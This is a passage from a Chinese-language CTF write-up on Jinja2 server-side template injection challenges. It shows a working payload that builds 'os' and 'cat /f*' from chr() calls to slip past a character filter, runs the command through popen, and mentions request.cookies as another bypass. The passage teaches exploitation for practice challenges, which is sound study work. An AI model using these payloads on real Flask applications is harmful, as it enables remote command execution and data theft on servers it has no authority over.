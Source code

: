 [![在这里插入图片描述](assets/1698900310-52cb89b5ed9218e3cfbb61db510a3938.png)](https://storage.tttang.com/media/attachment/2022/08/14/7efdcaab-0de7-4aba-b46c-701a4792ca20.png)  
当然，也可以利用 chr 函数来进行绕过，但 chr() 默认是没有的需要自己去调用定义，chr() 在 builtins 里

```bash
name={% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(42)).read()}}

/*原 payload
name={% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__[o+s].popen(c+a+t+ +/+f+*).read()}}
```

### [web364](#toc_web364)

`'`，`"`和 `args`被 ban，按理说可以用 values 替代 args，但  
[![在这里插入图片描述](assets/1698900310-0eaa17c09cad70f1d8e67ace160279a5.png)](https://storage.tttang.com/media/attachment/2022/08/14/29cac08d-0051-435a-b58a-7d7d82c43aa8.png)  
回显方法不允许使用，所以这里的话还需要去另寻他法  
发现用 request.cookies 绕过也可以  